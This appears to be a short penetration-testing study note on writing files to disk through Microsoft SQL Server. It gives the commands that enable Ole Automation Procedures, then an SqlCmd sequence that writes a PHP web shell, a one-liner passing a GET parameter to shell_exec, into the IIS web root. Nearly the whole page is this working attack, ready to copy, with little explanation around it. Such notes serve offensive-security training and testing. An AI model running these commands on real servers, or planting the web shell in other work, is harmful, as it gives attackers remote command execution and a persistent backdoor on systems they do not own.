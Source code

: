 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MSSQL
  - Concepts
  - Information
---
```

See [[2. Enumeration/TCP/3306. MySQL (SQL)/Concepts/Write Local File|Write Local File]] from [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|MySQL]] for more information.
## Restrictions

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:
#### Enable Ole Automation Procedures

```cmd-session
sp_configure 'show advanced options', 1
```
```cmd-session
RECONFIGURE
```
```cmd-session
sp_configure 'Ole Automation Procedures', 1
```
```cmd-session
RECONFIGURE
```


## Usage

Using [[SqlCmd]]:

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
